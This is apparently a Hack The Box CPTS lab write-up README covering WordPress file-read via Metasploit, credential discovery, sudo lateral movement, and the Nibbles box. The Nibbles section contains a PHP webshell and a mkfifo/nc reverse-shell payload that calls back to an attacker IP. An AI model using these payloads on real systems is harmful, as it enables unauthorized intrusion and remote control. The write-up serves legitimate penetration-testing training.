




# 🏴 Hack The Box — CPTS Certification Journey

Two hackers working toward the **Hack The Box Certified Penetration Testing Specialist (CPTS)** certification. This repo documents our progress, methodology, and flags along the way.

## Table of Contents

| # | Section | Topic |
|---|---------|-------|
| 8 | [Service Scanning](#-section-8--service-scanning) | WordPress file read exploit |
| 9 | [Web Enumeration](#-section-9--web-enumeration) | robots.txt, source code creds |
| 11 | [Privilege Escalation](#-section-11--privilege-escalation) | sudo lateral movement |
| 17 | [Nibbles — Initial Foothold](#-section-17---nibbles--initial-foothold) | Nibbleblog exploitation |

---

## 📦 Section 8 — Service Scanning

> **Objective:** Identify services running on the target, find public exploits, and retrieve `/flag.txt`.

### Reconnaissance

**Target:** `http://154.57.164.72:31179/`

Navigating to the target reveals an information disclosure — one of my most favorite (and common) pentest findings:



The exposed version info points us toward a known WordPress vulnerability. Using AI-assisted research, I identify the relevant Metasploit module:

```
auxiliary/scanner/http/wp_simple_backup_file_read
```

### Exploitation via Metasploit

```bash
msf > use auxiliary/scanner/http/wp_simple_backup_file_read
msf > set RHOSTS 154.57.164.72
msf > set RPORT 31179
msf > set FILEPATH /flag.txt
msf > run

[+] File saved in: /Users/sil3nt/.msf4/loot/20260513102116_default_154.57.164.72_simplebackup.tra_561948.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```bash
msf > cat /Users/sil3nt/.msf4/loot/20260513102116_default_154.57.164.72_simplebackup.tra_561948.txt

HTB{REDACTED}
```

✅ **Flag captured.**

---

## 🌐 Section 9 — Web Enumeration

> **Objective:** Identify services, find public exploits, and retrieve `/flag.txt`.

This section covers finding public exploits via Google dorking (`<technology> + exploit`), Searchsploit, and Metasploit.

### Nmap Scan

```bash
nmap -sV -p 30764 154.57.164.63
```

```
PORT      STATE SERVICE VERSION
30764/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Web Server Exploration

Visiting the target shows a simple landing page:


The page source is a basic HTML page with no interesting content — just a styled "Welcome to HTB Academy Blog" heading.

### Discovering Hidden Pages

Checking `robots.txt` at `http://154.57.164.63:30764/robots.txt`:

```text
User-agent: *
Disallow: /admin-login-page.php
```

You disallow robots, but not humans — let's check it out.


### Source Code Analysis

Inspecting the login page source reveals hardcoded credentials in an HTML comment:

```html
<!-- TODO: remove test credentials admin:password123 -->
```

✅ **Flag:** `HTB{REDACTED}`

---

## 🔐 Section 11 — Privilege Escalation

> **Objective:** SSH into the server, pivot to `user2`, and retrieve `/home/user2/flag.txt`.

### Reconnaissance

```bash
nmap -sV -Pn 154.57.164.64
```

```
PORT   STATE SERVICE VERSION
53/tcp open  domain?
```

### Initial Access

SSH in as `user1` on the provided port:

```bash
ssh -p 30798 user1@154.57.164.64
```

### Privilege Enumeration

Checking what `user1` can run with elevated privileges:

```bash
user1@host:~$ sudo -l
```

```
User user1 may run the following commands:
    (user2 : user2) NOPASSWD: /bin/bash
```

`user1` can run `/bin/bash` as `user2` without a password — easy lateral move.

### Lateral Movement

```bash
user1@host:~$ sudo -u user2 /bin/bash
user2@host:~$ cat /home/user2/flag.txt
HTB{REDACTED}
```

✅ **Flag captured.**


## 🍪 Section 17 — Nibbles — Initial Foothold

> **Objective:** Gain a foothold on the target and submit the `user.txt` flag.

### Nmap Scan

```bash
nmap -sV -Pn --open 10.129.117.82
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Web Server Exploration

Navigating to the target shows a bare page:



The page source leaks a hidden directory:

```html
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Sure, "nothing interesting" 😏

### Nibbleblog Discovery

Navigating to `/nibbleblog/` reveals a blog powered by **Nibbleblog**:



Key findings from the page source:
- CMS: **Nibbleblog**
- Admin panel likely at `/nibbleblog/admin/`
- Plugins loaded: `my_image`, `hello_world`, `categories`, `latest_posts`, `pages`

### Directory Enumeration

Found the admin user at `http://10.129.123.83/nibbleblog/content/private/users.xml`:

```xml
<user username="admin">
  <id type="integer">0</id>
  <session_fail_count type="integer">0</session_fail_count>
  <session_date type="integer">1514544131</session_date>
</user>
```

Not exactly shocking — but confirms the username.

### Gobuster

```bash
gobuster dir -u http://10.129.123.83/nibbleblog/ -w /path/to/SecLists/Discovery/Web-Content/common.txt
```

```
README               (Status: 200) [Size: 4628]
admin                (Status: 301) [--> /nibbleblog/admin/]
admin.php            (Status: 200) [Size: 1401]
content              (Status: 301) [--> /nibbleblog/content/]
index.php            (Status: 200) [Size: 2987]
languages            (Status: 301) [--> /nibbleblog/languages/]
plugins              (Status: 301) [--> /nibbleblog/plugins/]
themes               (Status: 301) [--> /nibbleblog/themes/]
```

### Nikto

```bash
nikto -h 10.129.123.83
```

Nikto didn't return useful results — database files failed to load. Moving on.

### Searchsploit

```bash
searchsploit nibbleblog
```

```
Nibbleblog 3 - Multiple SQL Injections                    | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)     | php/remote/38489.rb
```

The **Arbitrary File Upload** exploit looks promising.

### Authentication

At this point I was stuck — no obvious creds. Following the module walkthrough, the login turned out to be `admin:nibbles`. Classic guess-the-password situation.

### Exploitation — Arbitrary File Upload (RCE)

The `my_image` plugin allows uploading arbitrary files. We upload a PHP webshell disguised as an image:

```php
<?php system('id'); ?>
```

> **What this does:** `system()` executes OS commands on the server. The `id` command returns the current user context — confirming code execution.

The upload succeeds as a `.php` file:



Confirming RCE:

```bash
curl http://10.129.123.83/nibbleblog/content/private/plugins/my_image/image.php
```

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

✅ **Remote code execution confirmed.**

### Reverse Shell

Replace the webshell with a reverse shell payload:

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.150 9443 >/tmp/f"); ?>
```

Start the listener and trigger the payload:

```bash
nc -lvnp 9443
```

```bash
curl http://10.129.123.83/nibbleblog/content/private/plugins/my_image/image.php
```

Upgrade the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### User Flag

```bash
nibbler@Nibbles:~$ cat /home/nibbler/user.txt
{REDACTED}
```

✅ **User flag captured.**

### Privilege Escalation

We're only `nibbler` — we need root.

*Work in progress...*